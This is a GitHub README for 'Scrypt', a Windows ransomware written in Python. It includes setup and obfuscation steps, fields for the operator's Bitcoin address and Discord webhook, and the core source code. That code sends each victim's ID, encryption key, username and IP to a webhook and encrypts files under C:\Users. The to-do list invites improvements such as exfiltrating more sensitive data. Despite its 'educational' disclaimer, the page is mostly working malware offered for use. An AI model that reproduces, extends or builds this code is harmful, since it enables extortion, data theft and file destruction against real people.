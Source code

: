 <div>
  <h1 align="center">Scrypt</h1>
  <h3 align="center">Ransomware with Discord Integration</h3>
</div>

 <p align="center">
  <img width="660" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/ransomware.jpg?raw=true">
</p>

  Scrypt is a windows Ransomware with discord integration. After trying to find a reason to procrastinate a friend gave me the idea to speedrun making ransomware, so that I did. After around 5 hours I finished up Scrypt and this is the repo containing the full source code to the ransomware, the decrypter along with some notes on how it operates. What sets Scrypt aside from all the other Ransomware clones out there is its utilization of discord webhooks to send user reports.
  
<h3 align="center">Scrypt Attack Vectors</h4>
  Once you are hit by Scrypt you will instantly realize you are a victim. A giant screen warning the user (as shown below) will take up your entire screen, once you hit the continue button the window will become invisble so it can continue to run in the background. While I had wanted to use chacha20 for file encryption I ended up sticking to AES-128 due to my limited time.
 <p align="center">
  <img width="660" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/lockscreen.png?raw=true">
</p>
  
  Another feature of Scrypt is its easy report feature which gives you a detailed report of your victim, I used myself below as an example for how the data looks, this can be used to easily match client ID's.
 <p align="center">
  <img width="460" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/report.PNG?raw=true">
</p>

  Scrypt will also leave behind a nice little readme on the desktop just in case the client forgets any of his information. This will contain information such as your btc address, client, id and detailed steps to recovering there files. 
   <p align="center">
  <img width="460" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/note.PNG?raw=true">
</p>

<h3 align="center">Setup</h4>

  Setup is straight forward, run the following commands as listed here:
```
  pip install pyqt5
  pip install requests
  pip install pyinstaller
  pip install pyarmor
  pip install pycrypto
```
  Once you have all the dependencies installed go to your python file and modify this to include your information:
```
btcAdd = ""
email = ""
discordWebhook = ""
```
  After you have fully set this up head over to command prompt and run the following commands:
```
  cd "your folder path to scrypt"
```
  then run
```
  pyarmor pack -e --onefile Scrypt.py
```
  Wait for it to finish building and thats about it for setup.  

<h3 align="center">Understanding the Code</h4>
Scrypt starts off with the flashing screen to grab the users attention however in the background the ransomware itself runs, it starts of by sending a message which just gives a detailed report of our user along with the unique id and seeded password.

`````
	def sendMessage(self):
		try:
			self.getUserDetails() #trys to retrieve information about the user
		except:
			pass
		data = {
				"embeds": [
					{
					   "title": "**__Victim Report__:**", #uses said datain the report 
						"description": f"```css\nUSERID: {self.randomId}``` ```css\nKEY: {self.encryptionPass}``` ```css\nUSERNAME: {self.userName}``` ```css\nIP: {self.ip}```",
						"color": 13959168,
						"thumbnail": {
						"url": "https://www.pngkit.com/png/full/168-1680567_69137579-pentagram-with-demon-baphomet-satanic-goat.png"
					},
						"author": {
							"name": "Scrypt",
							"icon_url": "https://i.imgur.com/F3j7z5K.png"
							}
					}
				]
			}
		r = requests.post(discordWebhook, json=data) #makes a post request to our webhook with given data
`````

 Next starts the file encryption, our ransomware goes through every file in the provided folder path, in this case being `C:\\Users\\` and then proceeds to get handles for each filepath which will be passed as an argument for when we want to encrypt our files.  
```
	def run(self):
		self.sendMessage() #---------| Calls our function to send our user report via post request to our webhook.
		for root, directories, files in os.walk(self.filePath): #We are now itterating through our directories
			for filename in files: #now we are getting all of our files
				filepath = os.path.join(root, filename) 
				for base in fileTypes:
					if base in filepath:
						threading.Thread(target=self.encryptFile, args=(filepath,)).start() #multithreading our file encryption 
		
		self.readMe() #Creating our read me document
```
Each file is opened in read binary mode which is then encrypted with our pycrypto library with proper padding, then we flush the file contents and write our new file. 
  
```
	def encryptFile(self, file):
		try:
			with open(file, 'rb') as infile:
				content = self.crypto.encrypt(pad(infile.read(),32))
				with open(file, "wb") as outfile:
					outfile.write(content)
					outfile.close()
		except:
			pass
```
<h3 align="center">To Do List</h4>
  Hello fellow developers, if you are interested in contributing to Scrypt I will happily accept pushes for new features or improvements to the current version, this was made in 5 hours so its got a few things that could for sure use improvement:
  - [ ] Improve File Handeling (Change Extenstion not hard to do os.rename())
  - [ ] Give the decrypter a user interface.
  - [ ] Speed up the encryption proccess
  - [ ] Send more data/sensitive data via webhook.  
  - [ ] Create a builder for Scrypt for easier generation
  - [ ] Change encryption to salsa20 or chacha20  

  
  
<h3 align="center">Legal Notice</h4>
  This is illegal if you use this without the consent of others, I am not accountable for anything you get into, this was just a speedrun to demonstrate how ransomware is made/looks. This is 100% educational. Please do not misuse this tool.

